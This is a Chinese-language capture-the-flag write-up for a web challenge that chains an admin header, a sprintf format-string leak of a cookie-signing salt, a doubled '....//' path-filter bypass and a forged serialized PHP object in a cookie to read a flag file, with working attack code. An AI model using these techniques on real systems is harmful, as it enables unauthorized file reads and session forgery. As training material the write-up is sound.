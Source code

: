 #### web签到题

> <http://117.51.158.44/index.php>

打开页面提示没有权限，于是F12查看一下请求记录，发现有一个Auth.php

请求这个文件的时候有一个空的报文头didictf_username，用burpsuite抓包，将该项的值设为admin提示访问app/fL2XID2i0Cdh.php

该页面给了两个文件的源代码

经过审计发现

app/Application.php实现了一个Application类，该类中的__destruct方法有读取文件的操作，文件名为类中的一个变量，如果有反序列化便可以利用

```php
public function __destruct() {
    if(empty($this->path)) {
        exit();
    }else{
        $path = $this->sanitizepath($this->path);
        if(strlen($path) !== 18) {
            exit();
        }
        $this->response($data=file_get_contents($path),'Congratulations');
    }
    exit();
}
```



app/Session.php实现了一个Session类，该类的session_read方法有一个反序列化操作，反序列化的数据是cookie中的ddctf_id的值。此时我考虑通过篡改此cookie为恶意构造的上面application类的序列化字符串，其中path改为文件中提到的flag文件，这样便可读到flag

```php
private function get_key() {
    //eancrykey  and flag under the folder
    $this->eancrykey =  file_get_contents('../config/key.txt');//这个目录不可直接访问
}
```



题目中为了防止cookie被篡改，在设置cookie["ddctf_id"]的时候，在该值的后面缀上了一段md5，验证方法如下：

```php
$hash = substr($session,strlen($session)-32);//后三十二位为MD5，剩下的部分为反序列化用到的字符串
$session = substr($session,0,strlen($session)-32);

if($hash !== md5($this->eancrykey.$session)) {
   parent::response("the cookie data not match",'error');
   return FALSE;
}
```

因此想篡改cookie的值需要拿到盐。

继续审计发现如果不篡改cookie值，那么会进入到下面这个逻辑

```php
if(!is_array($session) OR !isset($session['session_id']) OR !isset($session['ip_address']) OR !isset($session['user_agent'])){
            return FALSE;
        }

        if(!empty($_POST["nickname"])) {
            $arr = array($_POST["nickname"],$this->eancrykey);
            $data = "Welcome my friend %s";
            foreach ($arr as $k => $v) {
                $data = sprintf($data,$v);
            }
            parent::response($data,"Welcome");
        }
```

这个逻辑允许用户将自己的nickname用POST方式发送过去，然后调用sprintf格式化"Welcome my friend %s"

这里可以将nickname设为%s，这样第二次for循环的时候便可将盐格式化到里面去，然后便可拿到盐

有了盐就可以篡改cookie了

```php
//authentication.php
//获取序列化的Application类
$auth = new Application();
$auth->path= "....//config/flag.txt";//sanitizepath函数进行了过滤，不过双写即可绕过
echo serialize($auth);

//attack.php
//构造合法的cookie
<?php
$eancrykey = "EzblrbNS";
$session = 'O:11:"Application":1:{s:4:"path";s:21:"....//config/flag.txt";}'; 

echo $session.md5($eancrykey.$session);//serilized + hash
?>
```

这道题应该也可以通过长度扩展攻击来绕过对cookie合法性的校验。不过这道题可以拿到盐的值，这种做法简单一些
